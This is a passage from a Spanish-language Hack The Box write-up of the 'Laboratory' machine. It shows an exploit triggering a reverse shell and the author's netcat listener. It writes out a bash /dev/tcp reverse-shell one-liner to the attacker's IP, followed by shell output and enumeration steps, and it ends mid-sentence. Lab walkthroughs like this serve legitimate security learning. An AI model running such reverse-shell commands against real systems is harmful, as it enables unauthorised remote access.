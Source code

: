 Elejimos la `opcion 2` y nos indica esto:

```bash
Start a listener on port 4433 and hit enter (nc -vlnp 4433)
```

Nos ponemos en escucha:

```bash
–» nc -lvp 4433
```

Y damos `enter`:

![298bash_exploit_running_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298bash_exploit_running_done.png)

Perfecto, tamos dentro de la máquina, ahora a enumerar. Pero primero hagámosle un tratamiento a nuestra Shell para que sea completamente interactiva, ya que si por alguna razón queremos ver los comandos anteriores o hacer `CTRL + C` no podremos:

* S4vitar nos explica lo que debemos hacer para conseguir una [Shell completamente interactiva (tratamiento de la TTY)](https://www.youtube.com/watch?v=GVjNI-cPG6M&t=1689).

Pero al intentarlo (o pues a mí me paso) la Shell (de `ruby` como indicaba el exploit: **"!!RUBY REVERSE SHELL IS VERY UNRELIABLE!! WIP"**) queda estática y no hace nada :( Así que probemos a generarnos una nueva pero en este caso ya con `bash`:

Primero nos volvemos a poner en escucha, pero ahora en otro puerto, en mi caso el `4434` y ejecutamos en la Shell de `git`:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.159/4434 0>&1'
```

```bash
–» nc -lvp 4434
listening on [any] 4434 ...
connect to [10.10.14.159] from laboratory.htb [10.10.10.216] 36932
bash: cannot set terminal process group (398): Inappropriate ioctl for device
bash: no job control in this shell
git@git:~/gitlab-rails/working$ id
id
uid=998(git) gid=998(git) groups=998(git)
git@git:~/gitlab-rails/working$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
git@git:~/gitlab-rails/working$ id
id
uid=998(git) gid=998(git) groups=998(git)
git@git:~/gitlab-rails/working$
```

Perfecto, ahora si procedemos a hacer el tratamiento de la TTY y a enumerar...

Después de buscar y buscar por todos lados me perdí y no sabía que más hacer, subí `linpeas`, enumere servicios mediante `ps auxwww` y con el archivo `/proc/net/tcp` (que tiene los números de los puertos donde hay algún servicio corriendo). Revise archivos locos por X parte, di vueltas por la mayoría de carpetas y con `grep` no encontraba nada... Así que busque ayuda con el siempre fiable [@TazWake](https://www.hackthebox.eu/profile/49335), usuario de la plataforma, moderador y persona superpresta a ayudar, que con una sola frase: 
